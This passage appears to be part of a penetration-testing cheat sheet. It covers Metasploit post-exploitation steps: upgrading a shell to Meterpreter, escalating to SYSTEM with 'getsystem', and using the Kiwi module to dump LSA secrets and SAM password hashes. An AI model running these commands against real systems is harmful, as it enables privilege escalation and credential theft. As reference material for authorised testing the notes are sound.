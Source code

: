 #### Upgrade Meterpreter shell
```
# 'java/meterpreter' shell does not work very well with all payloads
# so changing the shell to something else

use post/multi/manage/shell_to_meterpreter
```

Metasploit's Meterpreter built-in privilege escalation feature that attempts to gain SYSTEM-level privileges on the target machine. It works by trying a series of known techniques and exploits.
```
getsystem
```

### Kiwi Module
The Kiwi extension is a part of Metasploit's Meterpreter that provides various types of credential-oriented operations.
```
# attacker can perform passwords dumping and hashes, dumping passwords in memory, generating
# golden tickets
load kiwi

lsa_dump_secrets
lsa_dump_sam
```